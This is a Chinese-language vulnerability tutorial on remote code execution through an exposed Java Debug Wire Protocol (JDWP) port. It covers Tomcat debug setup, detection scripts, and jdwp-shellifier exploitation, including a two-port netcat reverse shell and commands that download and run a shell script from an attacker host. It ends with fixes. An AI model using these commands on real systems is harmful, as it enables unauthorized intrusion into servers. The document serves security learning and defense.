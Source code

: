 # JDWP调试接口 RCE 漏洞

## 漏洞描述

JDWP（Java Debug Wire Protocol，Java调试线协议）是一个为Java调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。

JDWP是JVM或者类JVM的虚拟机都支持的一种协议，通过该协议，Debugger端和被调试JVM之间进行通信，可以获取被调试JVM的包括类、对象、线程等信息。

参考阅读：

- https://forum.butian.net/share/1232

## 环境搭建

### Windows

下载Tomcat到本地，在`bin\startup.bat`文件中添加如下代码开启debug模式：

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
```

点击运行 `startup.bat` ，以debug模式启动Tomcat。

`Listening for transport dt_socket at address: 8000`，表示JDWP服务已经监听在8000端口，等待调试器连接。

### Linux

执行如下命令安装Tomcat：

```
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz

# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz

# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
```

启动方式一：

进入Tomcat安装目录下的bin目录下找到 `catalina.sh` 文件，在文件开头部分添加如下一行：

```shell
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
```

修改完成后，执行脚本`./startup.sh`就会以debug模式启动Tomcat。

启动方式二：

进入Tomcat的bin目录，输入 `./catalina.sh jpda run` 或者 `./catalina.sh jpda start` 命令以调试模式启动tomcat。
启动时就会出现如下信息提示：
`Listening for transport dt_socket at address: 8000`。

注意脚本中默认配置JDWP是监听在本地的8000端口，修改`JDPA_ADDRESS`的值对外开放此端口，在JDK9及以上的版本需要修改为`JDPA_ADDRESS=*:8000` ，在JDK9以下版本修改为`JDPA_ADDRESS=8000` 即可

## 漏洞检测

有三种常用方式来进行JDWP服务探测，原理都是一样的，即向目标端口连接后发送JDWP-Handshake，如果目标服务直接返回一样的内容则说明是JDWP服务。

### Nmap

扫描会识别到JDWP服务，且有对应的JDK版本信息。

```shell
nmap -sT -sV 192.168.192.1 -p 8000
```

### Telnet

使用Telnet命令探测，需要马上输入JDWP-Handshake，然后服务端返回一样的内容，证明是JDWP服务。

```shell
telnet 192.168.182.130 8000
```

注意：需要马上输入JDWP-Handshake，并按下回车，不然马上就会断开。在Linux系统下使用telnet测试可以，在Windows系统下使用telnet测试不太行。

### Python

使用如下脚本扫描，直接连接目标服务器，并向目标发送JDWP-Handshake，如果能接收到相同内容则说明目标是开启了JDWP服务。

```
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

## 漏洞POC

### POC1

poc1：https://github.com/IOActive/jdwp-shellifier
jdwp-shellifier是使用Python2编写的，该工具通过编写了一个JDI（JDWP客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。

该漏洞无回显，可利用dnslog进行探测：

```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
```

#### 反弹shell

准备反弹shell文件，保存为shell.txt：

```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```

启动http服务：

```
python3 -m http.server 8000
```

开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果：

```
nc -lvvp 3333
nc -lvvp 4444
```

利用poc1执行命令，下载shell、文件可执行权限、执行shell：

```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```

两个监听都收到shell，一个输入命令，一个输出结果。

![image-20230630173638801](images/image-20230630173638801.png)

### POC2

poc2：https://github.com/Lz1y/jdwp-shellifier
该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对Sleeping的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

## 修复建议

- 关闭JDWP端口，或者JDWP端口不对公网开放
- 关闭Java的debug模式